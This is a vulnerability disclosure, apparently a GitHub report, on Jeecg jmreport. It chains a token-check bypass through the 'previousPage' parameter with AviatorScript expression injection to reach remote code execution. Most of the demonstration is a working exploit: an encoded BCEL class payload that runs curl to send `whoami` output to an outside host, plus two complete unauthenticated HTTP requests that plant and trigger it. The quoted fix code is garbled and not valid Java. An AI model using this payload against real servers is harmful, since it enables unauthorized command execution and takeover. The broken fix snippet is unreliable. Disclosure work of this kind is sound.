 # jeecg jmreport Unauthorized AviatorEvaluator Leads to RCE Vulnerability

reporter: root012,

## Vulnerability Analysis:

Cause of Unauthorized Privilege Escalation:

The issue arises from a flaw in the JimuReportTokenInterceptor class within the jmreport component of Jeecg, where there is an error in the authentication logic. The validation of the token's validity is performed after checking the `previousPage` parameter to determine if it should be returned. If the `previousPage` parameter is directly provided, it leads to bypassing the token check, thereby allowing unauthorized privilege escalation.

![image-20240815214735901](./asset/图片1.png)

The next step involves checking the `previousPage` parameter

![image-20240815214826809](./asset/图片2.png)



When the `previousPage` parameter is passed, the identity check immediately returns `true`, thereby bypassing the token validation. This allows an attacker to circumvent the intended security checks by simply providing a `previousPage` parameter.





Reason for Command Execution (RCE):

In Jeecg, the `ExpressUtil` class uses `AviatorEvaluator` to execute expressions directly without configuring any security policies. This lack of security measures leads to a potential AviatorScript injection vulnerability, where an attacker can execute arbitrary static methods by default.

![image-20240815215220727](./asset/图片3.png)

![image-20240815215430223](./asset/图片4.png)

Recommendations for Vendors to Address the Issue:

https://github.com/apache/hertzbeat/commit/8dcf050e27ca95d15460a7ba98a3df8a9cd1d3d2



```


​```
 AviatorEvaluatorInstance instance = AviatorEvaluator.getInstance();
        // 配置AviatorEvaluator使用LRU缓存编译后的表达式
        instance
                .useLRUExpressionCache(AVIATOR_LRU_CACHE_SIZE)
                .addFunction(new StrEqualFunction());

        // 配置Aviator语法特性集合
        instance.setOption(Options.FEATURE_SET,
                Feature.asSet(Feature.If,
                        Feature.Assignment,
                        Feature.Let,
                        Feature.StringInterpolation));

        // 配置自定义aviator函数
        instance.addOpFunction(OperatorType.BIT_OR, new AbstractFunction() {
            @Override
            public AviatorObject call(final Map<String, Object> env, final AviatorObject arg1,
                                      final AviatorObject arg2) {
           public String getName() {
            }
        });

        instance.addFunction(new StrContainsFunction());
        instance.addFunction(new ObjectExistsFunction());
        instance.addFunction(new StrMatchesFunction());
​```
```



## Vulnerability Demonstration: 

Writing to a Table via Unauthenticated Access

To demonstrate the vulnerability, I will use `curl` with additional data to exploit the unauthenticated access and write to a table. Here’s how it can be done:

payload：

```
=((c=(Class.forName('$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeP$cbN$c2$40$U$3dCK$5bk$95$97$f8$7e$c4$95$c0$c2$s$c6$j$c6$NjbR$c5$88a\_$ca$E$86$40k$da$c1$f0Y$baQ$e3$c2$P$f0$a3$8cw$w$B$a2M$e6$de9$e7$9es$e6$a6\_$df$l$9f$ANq$60$p$8b$b2$8dul$a8$b2ib$cb$c46$83q$sB$n$cf$Z$b4J$b5$cd$a07$a2$$g$c8y$o$e4$b7$e3Q$87$c7$P$7egHL$d1$8b$C$7f$d8$f6c$a1$f0$94$d4e\_$q$MY$afqsQ$t$c8$t$3c$608$aax$D$ff$c9w$87$7e$d8s$5b2$Wa$af$5e$5d$a0$ee$e2$u$e0IB$G$z$YuU$f4$3f9$83$7d9$J$f8$a3$UQ$98$98$d8$n$dc$8a$c6q$c0$af$84z$d7$a2$f7$8e$95$c9$81$B$d3$c4$ae$83$3d$ec$3bX$c1$w$85$d2$90$n$3f$cflv$G$3c$90$M$a5$94$S$91$7b$dd$9c$853$U$e6$c2$fbq$u$c5$88$f2$ed$k$973P$ae$y$$$3f$a5$eb8$84N$7fT$7d$Z0$b5$GU$8b$90K$9dQ$cf$d6$de$c0$5e$d2$f1$SU$p$r5$d8T$9d\_$B$96$e9$G$9a$d2$da$a4R$e6$934$M$b0$de$91$a9$bdB$7b$fe$e37$W$fc$Wr$c8S$\_$d0$d1$89$v$d2$v$a5$fa$b5$l$d5$l$f2$9c$f6$B$A$A',true,new com.sun.org.apache.bcel.internal.util.ClassLoader()))) + ( c.exec('curl http://ip.port.xxx.xxx.io/`whoami`')))
```



```
POST /jeecg-boot/jmreport/save?previousPage=xxx&jmLink=YWFhfHxiYmI=&token=123 HTTP/1.1
Host: x.x.x.x:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Content-Length: 3456
 
 
{
    "loopBlockList": [],
    "area": false,
    "printElWidth": 718,
    "excel_config_id": "980882669965455363",
    "printElHeight": 1047,
    "rows": {
        "4": {
            "cells": {
                "4": {
                    "text": "=((c=(Class.forName('$$BCEL$$$l$8b$I$A$A$A$A$A$A$AeP$cbN$c2$40$U$3dCK$5bk$95$97$f8$7e$c4$95$c0$c2$s$c6$j$c6$NjbR$c5$88a\_$ca$E$86$40k$da$c1$f0Y$baQ$e3$c2$P$f0$a3$8cw$w$B$a2M$e6$de9$e7$9es$e6$a6\_$df$l$9f$ANq$60$p$8b$b2$8dul$a8$b2ib$cb$c46$83q$sB$n$cf$Z$b4J$b5$cd$a07$a2$$g$c8y$o$e4$b7$e3Q$87$c7$P$7egHL$d1$8b$C$7f$d8$f6c$a1$f0$94$d4e\_$q$MY$afqsQ$t$c8$t$3c$608$aax$D$ff$c9w$87$7e$d8s$5b2$Wa$af$5e$5d$a0$ee$e2$u$e0IB$G$z$YuU$f4$3f9$83$7d9$J$f8$a3$UQ$98$98$d8$n$dc$8a$c6q$c0$af$84z$d7$a2$f7$8e$95$c9$81$B$d3$c4$ae$83$3d$ec$3bX$c1$w$85$d2$90$n$3f$cflv$G$3c$90$M$a5$94$S$91$7b$dd$9c$853$U$e6$c2$fbq$u$c5$88$f2$ed$k$973P$ae$y$$$3f$a5$eb8$84N$7fT$7d$Z0$b5$GU$8b$90K$9dQ$cf$d6$de$c0$5e$d2$f1$SU$p$r5$d8T$9d\_$B$96$e9$G$9a$d2$da$a4R$e6$934$M$b0$de$91$a9$bdB$7b$fe$e37$W$fc$Wr$c8S$\_$d0$d1$89$v$d2$v$a5$fa$b5$l$d5$l$f2$9c$f6$B$A$A',true,new com.sun.org.apache.bcel.internal.util.ClassLoader()))) + ( c.exec('curl http://ip.port.xxx.xxx.io/`whoami`')))",
                    "style": 0
                }
            },
            "height": 25
        },
        "len": 96,
        "-1": {
            "cells": {
                "-1": {
                    "text": "${gongsi.id}"
                }
            },
            "isDrag": true
        }
    },
    "dbexps": [],
    "toolPrintSizeObj": {
        "printType": "A4",
        "widthPx": 718,
        "heightPx": 1047
    },
    "dicts": [],
    "freeze": "A1",
    "dataRectWidth": 701,
    "background": false,
    "name": "sheet1",
    "autofilter": {},
    "styles": [
        {
            "align": "center"
        }
    ],
    "validations": [],
    "cols": {
        "4": {
            "width": 95
        },
        "len": 50
    },
    "merges": [
        "E4:F4",
        "B4:B5",
        "C4:C5",
        "D4:D5",
        "G4:G5",
        "H4:H5",
        "I4:I5",
        "D1:G1",
        "H3:I3"
    ]
}
```



Afterward, through unauthenticated access to the table, trigger the AviatorScript code execution vulnerability.

```
POST /jeecg-boot/jmreport/show?previousPage=xxx&jmLink=YWFhfHxiYmI= HTTP/1.1
Host: x.x.x.x:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Content-Length: 42
 
 
{
    "id": "980882669965455363"
}
```

